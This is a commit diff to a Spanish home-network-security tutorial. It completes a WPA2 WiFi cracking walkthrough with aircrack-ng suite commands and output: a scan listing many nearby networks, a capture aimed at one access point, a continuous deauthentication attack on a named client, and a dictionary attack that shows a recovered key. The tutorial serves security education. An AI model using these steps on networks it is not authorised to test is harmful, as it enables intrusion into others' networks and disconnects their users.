

Before and after one commit to hromero99/Seguridad-en-redes-dom-sticas, an MkDocs documentation site: the page built from Documentation/docs/crackingWifi.md, in a window 1280 px wide and 1400 px high, scrolled down 2354 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 3664 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
Terminado cracking WPA2

````diff
--- a/Documentation/docs/crackingWifi.md
+++ b/Documentation/docs/crackingWifi.md
@@ -28,10 +28,10 @@
 Una vez comprobado si la tarjeta es compatible, pasaremos a ponerla el modo monitor.
 
 ```Aircrack-ng requiere ser ejecutado como root```
-```  Para los ejemplos de comandos se utilizará la interfaz wlan0, esto debe de ser cambiado según la interfaz```
+```  Para los ejemplos de comandos se utilizará la interfaz wlan1, esto debe de ser cambiado según la interfaz```
 
 
-    $ root@HowIsCoding:~$  airmon-ng check wlan0
+    $ root@HowIsCoding:~$  airmon-ng check wlan1
 
     Found 5 processes that could cause trouble.
     Kill them using 'airmon-ng check kill' before putting
@@ -53,62 +53,147 @@
 
 Cuando tenemos los procesos que entraban en conflicto matados podemos pasar a poner la interfaz en modo monitor, para ello usaremos la misma herramienta:
 
-    $ airmon-ng start wlan0
+    $ airmon-ng start wlan1
 
     PHY	Interface	Driver		Chipset
 
-    phy0	wlan0		ath9k_htc	Atheros Communications, Inc. AR9271 802.11n
+    phy0	wlan1		ath9k_htc	Atheros Communications, Inc. AR9271 802.11n
 
-		(mac80211 monitor mode vif enabled for [phy0]wlan0 on [phy0]wlan0mon)
-		(mac80211 station mode vif disabled for [phy0]wlan0)
+		(mac80211 monitor mode vif enabled for [phy0]wlan1 on [phy0]wlan1mon)
+		(mac80211 station mode vif disabled for [phy0]wlan1)
 
-Como podemos ver en la salida del comando airmon-ng se ha habilitado el modo monitor de nuestra tarjeta. Para operar con el momo monitor se habilita la interfaz wlan0mon.
+Como podemos ver en la salida del comando airmon-ng se ha habilitado el modo monitor de nuestra tarjeta. Para operar con el momo monitor se habilita la interfaz wlan1mon.
 
 Podemos comprobar los canales Wifi en los que esta ecuchando nuestra tarjeta en modo monitor, para ello podemos usar el comando:
 
-    $ iwlist wlan0mon channel
+    $ iwlist wlan1mon channel
 
 Cuando hemos encontrado la red que queremos auditar (como se explicará en el siguiente apartado), podemos suministrar el canal como argumento opcional a airmon-ng, de la siguiente forma:
 
-    $ airmon-ng start wlan0 3
+    $ airmon-ng start wlan1 3
 
 
 
 Al igual que podemos poner la tarjeta en modo monitor, cuando terminemos de trabajar con ella debemos desactivarla, para ello airmon-ng nos permite desactivarlo haciendo uso del comando:
 
-    $ airmon-ng stop wlan0
+    $ airmon-ng stop wlan1
 
 
-## Escaneando redes wifi: airmon-ng
+## Escaneando redes wifi: airodump-ng
 
 Una vez con nuestra interfaz en modo monitor pasaremos a realizar un escaneo de todas las redes wifi que estan en nuestro entorno, para ello utilizaremos la herramienta _airodump-ng_
 
-    $ airodump-ng wlan0mon
+    $ airodump-ng wlan1mon
 
-        CH  2 ][ Elapsed: 36 s ][ 2019-01-07 14:58
+	CH 12 ][ Elapsed: 12 s ][ 2019-01-13 13:34
 
-    BSSID              PWR  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
+	 BSSID              PWR  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
 
-    00:14:5C:84:4D:42  -44       14        5    1   6  54 . WPA2 TKIP   PSK  wireless.py
-    48:8D:36:BC:25:A2  -63       14        3    0   1  130  WPA2 CCMP   PSK  Orange-25A0
+	 AA:5D:17:03:35:FC  -41       33        0    0   7  54   WPA2 CCMP   PSK  RaspberryPI
+	 7C:8B:CA:6C:85:80  -42       21      100   40   4   54  WPA2 CCMP   PSK  TP-Link_8580
+	 A4:08:F5:E6:23:06  -57       13        0    0  11   54  WPA2 CCMP   PSK  vodafone2300
+	 94:6A:B0:CB:6F:EA  -62       19       80    0   4   54  WPA2 CCMP   PSK  MiFibra-6FE8
+	 F8:FB:56:28:37:01  -69        1        3    0   7   54  WPA2 CCMP   PSK  micasa
+	 44:48:C1:0F:0B:01  -72        5        0    0  11   54  WPA2 CCMP   MGT  VECTORITC-CORPORATI
+	 78:29:ED:83:11:BF  -73        8        0    0  11   54  WPA2 CCMP   PSK  MOVISTAR_11BE
+	 44:48:C1:0F:0B:00  -73        7        0    0  11   54  WPA2 CCMP   MGT  VECTORITC-COLABORAD
+	 44:48:C1:0F:0B:02  -73        7        0    0  11   54  OPN              VECTORITC-INVITADOS
+	 B0:4E:26:1D:93:57  -74        2        0    0   6   54  WPA2 CCMP   PSK  TP-Link_9358
+	 EC:08:6B:AB:77:F0  -75        4        0    0   3   54  WPA2 CCMP   PSK  TP-LINK_77F0
+	 F4:F2:6D:2C:58:99  -83        1        2    0   9   54  WPA2 CCMP   PSK  Ororo _EXT
+	 F4:F2:6D:EC:C4:71  -83        0       22    0  10  -1   WPA              <length:  0>
+	00:16:0A:13:DB:42  -85        5        0    0  11  54 . WPA2 CCMP   PSK  RAFAELA
 
-    BSSID              STATION            PWR   Rate    Lost    Frames  Probe
+	BSSID              STATION            PWR   Rate    Lost    Frames  Probe
 
-    48:8D:36:BC:25:A2  10:00:00:8A:95:26  -21    0 - 6e     0        4
+	7C:8B:CA:6C:85:80  10:02:B5:8A:95:26   -1    0e- 0      0      100
+	94:6A:B0:CB:6F:EA  7C:8B:CA:6C:85:81  -29    5e- 0e     0       76
+	F8:FB:56:28:37:01  E4:0E:EE:44:DF:24  -72    1e- 1      0        4
+	EC:08:6B:AB:77:F0  4C:74:03:70:7C:3A  -85    0 - 6      0        1
+
 ``` La terminología usada en el resultado de este comando esta explicada en el apartado anterior``
 
-Es necesario examinar el resultado de esta herramienta y explicar a groso modo su funcionamiento.
 
-Airodump-ng realizará un escaneo por todos los canales de radio referentes a las redes wifi, buscando las diferentes señales (ya que permite capturar paquetes mediante el modo monitor). También detecta los clientes que existen en esas redes, así como sus direcciones mac y los puntos de acceso a los que están conectados.
+Airodump-ng realizará un escaneo por todos los canales de radio referentes a las redes wifi e irá buscando las diferentes señales y los clientes conectados a la mismas.
 
-Con este resultado podemos enfocarnos en un determinado punto de acceso, sin embargo, podemos realizar una captura de todo el tráfico y almacenarla en un archivo _pcap_ para su posterior análisis con _Wireshark_ u otra herramienta.
+Este resultado nos será útil para identificar todas las señales wifi de nuestro entorno, así como los cientes conectados a estas. Tenemos que tener en cuenta que si un punto de acceso tiene clientes conectados, el proceso de obtención de la contraseña será más fácil de realizar.
 
-### Limitando el rago de búsqueda
 
-Como mencionamos en el apartado anterior, cuando ponemos la interfaz en modo monitor podemos especificar la escucha en determinados canales. Esto cobra sentido en este momento, cuando hemos encontrado la red wifi que queremos auditar, pasaremos a limitar el rango de captura de datos a este canal (reduciendo así en tráfico a analizar).
+### Limitando el rango de búsqueda
 
-Posteiormente podemos capturar información relevante exclusivamente al AP que nos interesa, especificando su dirección MAC(bssid) y Canal en el que emite podemos obtener mayor información de esta red, incluyendo el Handsake.
+En el anterior ejemplo estabamos haciendo una captura de todos los canales wifi, de forma que nuestra interfaz (en modo monitor) iba cambiando constantemente de canal para encontrar los clientes y puntos de acceso de cada canal.
 
-    $ airodump-ng --bssid 00:14:5C:84:4D:42 --essid wireless.py -c 6 -w wirelessPY wlan0mon
+Sin embargo, cuando estamos trabando con un objetivo en concretp tenemos que  capturar información  exclusivamente de dicho AP para ello tenemos que  especificar su dirección MAC(bssid) y Canal en el que emite podemos obtener mayor información de esta red, indicaremos también un fichero donde almacenar la información que capturemos, de forma que el handsake quede almacenado para posteior tratamiento.
 
-Este comando nos dará como resultado un paquete _cap_(wirelessPY.cap) para analizar posteriormente.
+	$ airodump-ng --bssid 7C:8B:CA:6C:85:80 -c 4 -w capture wlan1mon
+
+Este comando nos dará como resultado un paquete _cap_(capture.cap) para analizar posteriormente.
+
+Tenemos que esperar hasta que capturemos el handsake, es decir, tenemos que esperar hasta que un cliente se conecte al punto de acceso y por ende comience el proceso de autenticación descrito anteriormente.
+
+	$ CH  4 ][ Elapsed: 30 s ][ 2019-01-13 13:46 ][ WPA handshake: 7C:8B:CA:6C:85:80
+
+	 BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
+
+	 7C:8B:CA:6C:85:80  -34  57      303    12529  816   4   54  WPA2 CCMP   PSK  TP-Link_8580
+
+	 BSSID              STATION            PWR   Rate    Lost    Frames  Probe
+
+	 7C:8B:CA:6C:85:80  CC:9F:7A:1D:02:27  -35    0e- 0e   108      317  TP-Link_8580
+	 7C:8B:CA:6C:85:80  10:02:B5:8A:95:26  -42    0e- 6e     0    12360
+
+En este momento hemos obtenido el handsake referente al AP, de forma que podemos detener la captura de paquetes.
+
+## Generando tráfico Wifi: aireplay-ng
+
+aireplay-ng es una herramienta dentro de la suite que nos permite generar tráfico para posteiormente utilizarlo en el proceso de craking de contraseñas WEP o WPA PSK.
+
+En nuestro caso, estamos trabajando en una red WPA PSK. Cuando encontramos un cliente conectado a esta red, el proceso de captura de handsake parece imposible (puesto que el handsake se obtiene durante el proceso de autenticación), por lo cual, tendríamos que esperar a que el cliente u otro nuevo se conecte, en este punto es donde entra en juego aireplay.
+
+Podemos enviar paquetes que permite desautenticar a los clientes de una red, dichos clietnes, posteriormente se verán obligados a conectarse y nosotros capturaremos el handsake.
+
+Con aireplay-ng podemos enviar diferente tipo de tráfico, sin embargo, como hemos mencionado en nuestro caso nos interesa desauntenticar al usuario, para ello usaremos:
+
+	$ root@kali:~# aireplay-ng -0 0 -a 7C:8B:CA:6C:85:80 -c CC:9F:7A:1D:02:27 wlan1mon
+	14:05:50  Waiting for beacon frame (BSSID: 7C:8B:CA:6C:85:80) on channel 4
+	14:05:51  Sending 64 directed DeAuth (code 7). STMAC: [CC:9F:7A:1D:02:27] [19|65 ACKs]
+	14:05:51  Sending 64 directed DeAuth (code 7). STMAC: [CC:9F:7A:1D:02:27] [ 0|58 ACKs]
+	14:05:52  Sending 64 directed DeAuth (code 7). STMAC: [CC:9F:7A:1D:02:27] [ 0|61 ACKs]
+	14:05:53  Sending 64 directed DeAuth (code 7). STMAC: [CC:9F:7A:1D:02:27] [ 0|66 ACKs]
+
+En este comando, estamos especificando los siguientes parámetros:
+
+* -0 0 --> Indicamos que es un ataque de desautenticación. Con 0 indicamos el intervalo de nvío, en este caso continuamente
+
+* -a --> Indicamos la dirección MAC del punto de acceso
+
+* -c --> Indicamos la dirección MAC del cliente para desautenticar
+
+Pasando un tiempo, el cliente será desautenticado y automaticamente intentará volver a conectarse (de forma manual o automática), será en ese momento donde podamos caputar el handsake.
+
+## Obteniendo la contraseña: aircrack-ng
+
+aircrack-ng es la herramienta que nos permite crackear la contraseña, podemos utilizar diferentes métodos, en este caso vamos a realizar un ataque por diccionario. Podemos utilizar otros métodos como cracking mediante gpu haciendo uso de herramientas como _pyrit_.
+
+	$ aircrack-ng -w passwordList capture-01.cap
+
+	                       Aircrack-ng 1.5.2
+
+      [00:00:00] 2/1 keys tested (25.73 k/s)
+
+      Time left: 0 seconds                                     200.00%
+
+                           KEY FOUND! [ $Afmin123 ]
+
+
+      Master Key     : E3 77 86 87 FB A3 E9 54 77 EC 16 11 56 50 F8 C0
+                       D5 8B 37 2F 0E 16 A7 F1 38 A3 C9 E5 75 AB EE B7
+
+      Transient Key  : 8D 67 66 D7 74 3D AD A5 76 08 83 91 3C 10 56 49
+                       81 14 B7 68 95 51 3B 2D 2D 25 70 1D D9 31 73 D2
+                       44 DE 8A 54 25 CA F9 AB B6 99 1A 9A 7E D3 D4 25
+                       EC E3 C5 E3 BF 4B 9A 1E 52 48 37 68 DA 8F 32 30
+
+      EAPOL HMAC     : 79 F3 A9 F9 FA CA 60 C6 4E 45 8C 3D B6 77 0C D2
+
+Tras realizar el ataque, si este ha concluido satisfactoriamente, encontraremos la contraseña, así como las diferentes claves utilizadas durante el proceso.
````
